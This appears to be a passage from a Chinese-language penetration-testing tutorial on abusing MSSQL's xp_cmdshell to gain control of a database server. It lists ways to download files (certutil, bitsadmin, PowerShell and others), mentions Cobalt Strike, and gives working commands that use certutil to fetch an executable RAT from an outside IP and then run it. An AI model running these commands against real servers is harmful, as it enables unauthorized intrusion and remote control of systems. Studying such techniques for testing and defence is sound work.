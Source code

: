 ### 0x00 xp_cmdshell

上一章备份中已经提到这个函数，在我们遇到站库分离的时候，没办法写webshell，后台也没办法拿下shell的情况下不妨试试用xp_cmdshell下载我们的RAT直接拿下数据库
下载文件我们有几个常用的思路如下

1. certutil

2. vbs

3. bitsadmin

4. powershell

5. ftp

这里我就用Cobalt Strike 不会的朋友可以看看我前面写的CS教程,他来搞这几个过程比较方便，我这里就以certutil为例，其他的用法在网上都很多的。

上传到一个可读可写的目录

```
exec master.dbo.xp_cmdshell 'cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe';

exec master.dbo.xp_cmdshell 'cd c:\www & file.exe';

```

![mysql](./img/2.2.1.png)
